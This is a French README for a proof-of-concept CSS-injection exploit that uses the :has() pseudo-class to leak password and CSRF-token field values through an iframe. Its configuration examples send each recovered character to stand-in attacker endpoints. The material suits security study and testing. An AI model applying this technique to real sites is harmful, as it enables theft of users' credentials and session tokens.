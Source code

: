 # PoC - CSS Injection : pseudo-class has()

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant la pseudo-class has() afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Le site vulnérable doit pouvoir être iframé, voir entêtes HTTP `X-Frame-Options` et `frame-ancestors`.
- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.
- Ne fonctionne pas sur Firefox (ni sur IE)

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "csrf-token";

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isQuoteFiltered = true;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isQuoteFiltered = true;
```

## Démo

### Récupération d'une valeur d'un champ de type password

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/has-attribute-selectors-iframe/demo/has-attribute-selectors-iframe-password.gif)

### Récupération d'une valeur d'un champ de type hidden

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/has-attribute-selectors-iframe/demo/has-attribute-selectors-iframe-hidden.gif)